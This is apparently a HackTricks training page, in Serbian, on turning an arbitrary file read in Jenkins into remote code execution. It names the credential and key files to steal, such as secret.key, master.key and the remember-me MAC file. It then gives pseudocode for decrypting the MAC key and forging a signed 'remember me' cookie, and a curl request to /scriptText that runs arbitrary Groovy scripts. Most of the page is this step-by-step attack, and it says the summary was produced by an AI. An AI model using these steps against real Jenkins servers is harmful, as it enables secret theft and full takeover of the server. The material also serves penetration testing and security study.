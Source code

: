 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

U ovom blog postu je moguće pronaći odličan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani sažetak dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića da bi se dobio RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj sažetak:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevano podešavanje).
- **Access Levels:** Napadač treba Overall/Read dozvole.
- **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Dodaje jedan sat trenutnom vremenu
```

- **Concatenate Data for Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Konvertuje master ključ u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifruje .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Izračunava HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac) // Konvertuje MAC u heksadecimalni string
```

**Cookie Encoding**

- **Generate Final Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64 kodira podatke kolačića
```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
- Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
- Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem "remember-me".

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan je kako bi se pokazalo kako napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{{#include ../../banners/hacktricks-training.md}}
